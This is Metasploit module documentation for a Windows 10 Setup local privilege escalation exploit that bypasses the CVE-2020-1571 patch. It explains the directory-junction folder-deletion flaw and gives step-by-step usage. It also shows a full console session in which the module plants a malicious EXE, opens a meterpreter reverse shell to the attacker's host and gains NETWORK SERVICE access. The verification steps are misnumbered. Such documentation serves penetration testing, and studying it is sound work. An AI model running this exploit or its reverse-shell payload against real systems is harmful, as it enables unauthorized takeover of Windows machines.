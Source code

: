 ## Vulnerable Application
Windows 10 v1803 to v2004 machines prior to the August 2020 Patch Tuesday updates are vulnerable to an local privilege elevation
vulnerability in Windows Setup due to a time-of-check-time-of-use (TOCTOU) issue when setting the directory permissions for the `C:\$WINDOWS.~BT`
directory. More specifically the code first called `CreateDirectoryW()` to create a directory before then setting the permissions
on that folder via a `SetSecurityInfo()` call. This allowed users to redirect the `SetSecurityInfo()` call by creating a directory junction 
at `C:\$WINDOWS.~BT`, or the directory which was created with open permissions (due to a `NULL` security descriptor being passed to the 
`CreateDirectoryW()` call), and thereby cause the `SetSecurityInfo()` call to be called on a different directory, which would then be granted 
different permissions, which could lead to a security flaw.

The issue with this, as discussed by @klinix5, who discovered the bug, is that whilst Microsoft correctly fixed this code so that only one
call is made to `CreateDirectoryW()` with the permissions that were previously set via the `SetSecurityInfo()` call, they didn't validate that
`C:\$WINDOWS.~BT` is actually a proper directory and not a directory junction prior to deleting it via a call to `DeleteFolderWithPath()` as part
of Windows Setup's cleanup code.

As a result an attacker can create the `C:\$WINDOWS.~BT` directory, set one of its subdirectories to be a directory junction pointing to a target
folder to be deleted, and the start the Windows Setup upgrade. This will cause Windows Setup to try and delete the `C:\$WINDOWS.~BT` directory 
as the `SYSTEM` user. However since `C:\$WINDOWS.~BT` is now a directory junction which points to an attacker specified directory, Windows Setup 
will instead delete that directory as the `SYSTEM` user, thereby granting the attacker arbitrary folder deletion as `SYSTEM`.

With the ability to delete arbitrary folders as the `SYSTEM` user, attackers can then proceed to use the direction deletion technique described in
@jonaslyk's Secret.Club post at https://secret.club/2020/04/23/directory-deletion-shell.html to elevate their privileges to `SYSTEM` via a DLL planting
attack. 

This module uses the patch bypass as well as a variation of @jonaslyk's technique, to gain a shell as `NT AUTHORITY\NETWORK SERVICE` on affected Windows 10
systems prior to version 2004. This patch bypass is unpatched as of August 25th 2020.

### Installation And Setup
All affected systems should have Windows Setup installed as it is a core component of Windows 10 operating systems and it cannot be removed.

## Verification Steps
  1. Start msfconsole
  2. Get a session as a low privileged user on a Windows 10 machine
  3. Do: On the target machine go to ```Settings``` and click ```Check for Updates```. 
  4. Confirm that you can see a section titled ```Feature Update``` with a link titled ```Download and Install``` underneath it.
  5. Do: ```use exploit/windows/local/cve_2020_1571_windows_setup_lpe```
  6. Do: ```set SESSION <sess_no>```
  7. Do: ```set WaitTime <minutes>``` to set the number of minutes you want to wait the exploit to wait for the DLL to complete its job before continuing.
  8. Do: ```set WritableDir <directory>``` if you want to alter the location of the writeable directory to place temporary files into.
  9. Do: Set the ```LPORT``` and ```RHOST``` options for the payload as needed.
  10. Do: ```run``` 
  8. Click the ```Download and Install``` button under the section titled ```Feature Update``` to start the system upgrade process.
  7. You should get a shell running as ```NT AUTHORITY\NETWORK SERVICE``` a few minutes after the timer specified in the ```WaitTime``` option expires.

## Options
  **WaitTime**
  Time to wait for the reflectively loaded DLL to exploit CVE-2020-1571 and complete its operations
  before the Metasploit code runs and tries to gain privileges via a DLL hijacking attack. Setting
  this timer to too low of a value will result in the exploit failing so its recommended to set 
  this slightly over your expected wait time to allow for a margin of error.
  
  **WritableDir**
  Location of a directory that the current user on the target system has write access to. Used to 
  store various temporary files as part of the exploitation process.

## Scenarios

### Windows 10 v1909 x64 - Build 18363.1016
```
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2020_1571_windows_setup_lpe
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > show options

Module options (exploit/windows/local/cve_2020_1571_windows_setup_lpe):

   Name         Current Setting   Required  Description
   ----         ---------------   --------  -----------
   SESSION                        yes       The session to run this module on.
   WaitTime     10                yes       Number of minutes to wait for the reflectively injected DLL's operations to complete before continuing
   WritableDir  C:\Windows\Temp\  yes       The location of a directory the current user can write to


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows EXE Dropper


msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > set SESSION 17
SESSION => 17
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > set LHOST 172.19.16.1
LHOST => 172.19.16.1
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > set LPORT 5512
LPORT => 5512
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > set WaitTime 5
WaitTime => 5
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > show options

Module options (exploit/windows/local/cve_2020_1571_windows_setup_lpe):

   Name         Current Setting   Required  Description
   ----         ---------------   --------  -----------
   SESSION      17                yes       The session to run this module on.
   WaitTime     5                 yes       Number of minutes to wait for the reflectively injected DLL's operations to complete before continuing
   WritableDir  C:\Windows\Temp\  yes       The location of a directory the current user can write to


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.19.16.1      yes       The listen address (an interface may be specified)
   LPORT     5512             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows EXE Dropper


msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > exploit

[*] Started reverse TCP handler on 172.19.16.1:5512
[*] Payload injected. Executing exploit...
[*] Please go to Settings, Check for Updates, and then click Download and Install under the section titled Feature Update.
[*] Sleeping for 5 minutes whilst the update process takes place and the DLL runs...
[+] Exploit successfully deleted the WER and Windows Media Player directories!
[*] Using schtasks to run the QueueReporting task to create the WER directory with open permissions...
[*] Creating mount point between the WER directory and \RPC Control...
[+] Created the directory junction successfully!
[+] Created the symbolic link between \RPC Control\Temp and \??\c:\Program Files\Windows Media Player successfully!
[*] Running the QueueReporting task again to create the folder C:\Program Files\Windows Media Player with open permissions...
[+] Created the malicious EXE at C:\Program Files\Windows Media Player\wmpnetwk.exe
[*] Setting the permissions on the malicious EXE at C:\Program Files\Windows Media Player\wmpnetwk.exe so that everyone can access it...
[*] Sending stage (200262 bytes) to 172.19.31.210
[*] Meterpreter session 18 opened (172.19.16.1:5512 -> 172.19.31.210:54368) at 2020-08-25 18:06:58 -0500
[+] Should be good to go, enjoy the shells!

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > background
[*] Backgrounding session 18...
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                     Connection
  --  ----  ----                     -----------                                     ----------
  17        meterpreter x64/windows  DESKTOP-EMAVUN1\test @ DESKTOP-EMAVUN1          0.0.0.0:0 -> 172.19.31.210:4444 (172.19.31.210)
  18        meterpreter x64/windows  NT AUTHORITY\NETWORK SERVICE @ DESKTOP-EMAVUN1  172.19.16.1:5512 -> 172.19.31.210:54368 (172.19.31.210)

msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) >
```
